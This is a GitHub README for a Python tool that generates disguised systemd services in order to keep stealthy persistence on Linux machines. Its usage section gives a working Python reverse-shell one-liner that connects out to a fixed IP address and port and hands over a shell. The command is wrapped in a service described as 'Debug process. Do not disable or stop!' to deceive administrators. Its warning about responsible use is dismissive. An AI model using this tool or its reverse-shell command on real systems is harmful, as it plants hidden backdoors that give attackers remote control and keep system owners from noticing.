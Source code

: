 # Linux-Persistence

A Python script designed to automatically generate a systemd service that mimics an existing one. This can be utilized to subtly establish persistence on a machine by creating services that blend in with genuine ones.

## ⚠️ Warning

Use this script responsibly and ethically and all of that stuff... Only run it on systems where you have explicit permission to do so.

## Prerequisites

- Python 3.x
- Systemd-based Linux distribution
- Superuser (root) permissions for creating systemd services.

## Installation

```bash
git clone https://github.com/sc1341/Linux-Persistence
cd Linux-Persistence
```

## Example Usage

Deploy a web server with self delete 

`sudo ./create_service.py "python3 -m http.server 8080" --description "Python HTTP Server" --self-delete`

Deploy a web server

`sudo ./create_service.py "python3 -m http.server 8080" --description "Python HTTP Server" --user ubuntu --group ubuntu --working-directory /home/ubuntu/webcontent/`

Deploy a custom application

`sudo ./create_service.py "/opt/my_app/my_app" --description "My Custom App" --user appuser --group appuser --working-directory /opt/my_app/`

Create a reverse shell

`./create_service.py "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.15.25',82));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"" --description "Debug process. Do not disable or stop!"`
